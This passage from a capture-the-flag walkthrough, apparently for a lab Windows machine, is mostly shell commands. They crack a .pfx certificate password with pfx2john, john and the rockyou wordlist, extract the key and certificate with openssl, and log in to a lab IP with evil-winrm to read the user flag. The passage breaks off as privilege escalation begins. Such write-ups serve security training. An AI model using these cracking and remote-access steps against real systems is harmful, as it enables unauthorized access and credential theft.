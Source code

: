 We can run the following command to try to extract it:

```shell
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

If we enter the password supremelegacy, we will get an error:

```shell
Enter Import Password:
Mac verify error: invalid password?
```

It seems we need another password.

We will use pfx2john to try to crack and open the .pfx file:

```shell
# Use pfx2john
pfx2john legacyy_dev_auth.pfx > pfx2john.txt

# Use john
john pfx2john.txt -wordlist:/usr/share/wordlists/rockyou.txt

# We were able to successfully crack it and get the following credentials
thuglegacy       (legacyy_dev_auth.pfx)
```

Now we can use the cracked password to extract content from the .pfx file:

```shell
# Extract key.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
# Enter Import Password: thuglegacy

# Extract cert.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
# Enter Import Password: thuglegacy
```

# Foothold
### Access using evil-winrm with key.pem and cert.pem
Now that we got key.pem and cert.pem, we can access using evil-winrm with the following command:

```shell
evil-winrm -i 10.129.141.135 -c cert.pem -k key.pem -S
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\legacyy\Desktop\user.txt
```

# Privilege Escalation
### Finding svc_deploy credentials on powershell history
Once we are in, we did some basic enumeration and were able to find credentials on PowerShell history:
